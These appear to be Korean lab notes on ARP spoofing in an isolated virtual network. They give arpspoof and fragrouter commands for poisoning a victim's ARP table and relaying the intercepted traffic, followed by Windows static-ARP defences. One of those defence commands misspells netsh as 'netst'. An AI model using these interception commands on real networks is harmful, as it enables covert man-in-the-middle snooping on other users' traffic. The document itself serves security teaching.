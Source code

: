 

### ARP Spoofing

- **Kali2 (Attacker)가 arpspoofing을 한다.**

kali1(Victom) : 192.168.111.131

kali2(Attacker) : 192.168.111.132

WindowsXP : 192.168.111.133

- **root@kali2:~\# arpspoof -i eth0 -t VICTIM_IP(WINXP) GATEWAY_IP**

⇒ # arpspoof -i eth0 -t 192.168.111.131(133) 192.168.111.2

**공격 대상자의 arp 테이블의 게이트웨이 맥주소가 변경되는것을 확인할 수 있다.**

이제 게이트웨이로의 요청이 공격자에게 가고 공격자는 dns를 수행해주지 않기때문에 naver 접속이 되지 않는다.

![](./image/arp3.jpg)

가로챈 패킷을 원하는 방향으로 돌리고 싶을 때

- **root@kali2:~\# fragrouter -B1** ← 원래 방향으로 라우팅 해준다.

이제 공격자가 원래 경로로 라우팅해준다. dns 서버 사용이 가능해지기 때문에 naver 접속이 다시 가능해진다.

### ARP Spoofing 방어

Windows 두가지 방법

1. \> arp -s GATEWAY_IP GATEWAY_MAC

2. \> netst interface ip delete neighbors "NETWORK_CARD_NAME" "GATEWAY_IP"

   \> netst interface ip add neighbors "NETWORK_CARD_NAME" "GATEWAY_IP" "GATEWAY_MAC"
